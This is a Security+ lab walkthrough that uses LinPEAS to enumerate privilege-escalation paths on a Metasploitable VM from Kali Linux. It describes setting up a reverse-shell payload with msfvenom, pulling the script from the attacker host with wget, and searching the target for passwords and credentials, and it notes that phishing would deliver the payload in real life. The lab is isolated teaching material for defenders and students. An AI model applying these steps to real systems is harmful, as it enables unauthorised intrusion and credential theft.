








- [ ] Pasitikrinti ar viskas veikia

**Lab Objective:**

Learn how to use LinPEAS to enumerate for privilege escalation on a Linux target.

This is just one of the labs you can follow from our [101 Labs – CompTIA Security+ video course](https://www.101labs.net/courses/101-labs-comptia-security/). Access includes all lab courses and practice exams as well as live Cisco racks 24/7.

**Lab Purpose:**

LinPEAS is a script which will search for all possible paths to escalate privileges on Linux hosts.

**Lab Tool:**

Kali Linux and Metasploitable.

**Lab Topology:**

You can use Kali Linux in a VM and Metasploitable Linux VM for this lab.

**Lab Walkthrough:**

### Task 1:

In this lab, we will be looking at how to use LinPEAS to enumerate a Linux target for all possible privilege escalation opportunities. We will download  PEAS (Privilege Escalation Awesome Scripts) from the internet. First, make sure that your Kali VM is currently connected to a network that has access to the internet. Now, open a terminal screen and type the following command in a single line:

git clone [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite.git](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite.git)

This will download all the scripts and tools you need. For this lab, we will be focusing on LinPEAS, which is the script for enumerating on Linux targets.

Once downloaded, navigate to the directory containing the file linpeas.sh. You can locate this file by typing the following into a terminal (1):

find . -iname “linpeas.sh”

This will show you the exact location of the file. Copy this file to the document root of nginx web server, which is ”/var/www/html”:

suite/linPEAS/linpeas.sh  /var/www/html

Then, start the nginx web server. To do this, open a terminal screen and type the following command:

sudo nginx

We are doing this because we will later download this file from the target Metasploitable Linux VM. In a real life scenario, this would be done using a phishing email or some other form of social engineering. For this lab, simply transfer the file to your Metasploitable Linux VM.

### Task 2:

We will need to establish a basic shell on the target. First, put Kali VM into same “Host-Only Network” with target Metasploitable Linux VM again to isolate attacks/scans from your real network.

Then, create a reverse shell payload using msfvenom, transfer this file to the Metasploitable Linux VM target, establish a Metasploit listener in Kali VM, and execute the payload on target machine. Refer to lab 75 for more information.

So, we now have a meterpreter shell on our target!

### Task 3:

Switch to the text console of your Metasploitable Linux VM. Download the linpeas.sh file from the Kali VM, then make it executable by typing the following commands:

wget http://192.168.56.103/linpeas.sh

chmod +x linpeas.sh

Once on the Linux machine, we can easily execute the script. In Meterpreter, type the following to get a shell on our Linux machine:

shell

Once interacting with the shell, we can execute the script by navigating to the directory where we saved the file and then typing the following:

./linpeas.sh > results.txt

After running command, LinPEAS goes through the entire system looking for various privilege escalation methods available and write all output to a text file, results.txt. If “linpeas.sh” didn’t work, make sure it is executable. You can make this file executable by typing “chmod + x linpeas.sh” within this meterpreter shell.

LinPEAS will look for a massive amount of information to provide us with a comprehensive list of options with regards to privilege escalation. Some of the information gathered include hidden files, files with specific names in them such as “password” or “credential”, interesting files with potential passwords, credentials for services such as apache2, mail usernames and passwords, etc. Let’s look at the contents of this file now. Type this command in the same shell:

cat results.txt

LinPEAS colour-codes the information it provides us, with items in red indicating the strongest possibility of privilege escalation.

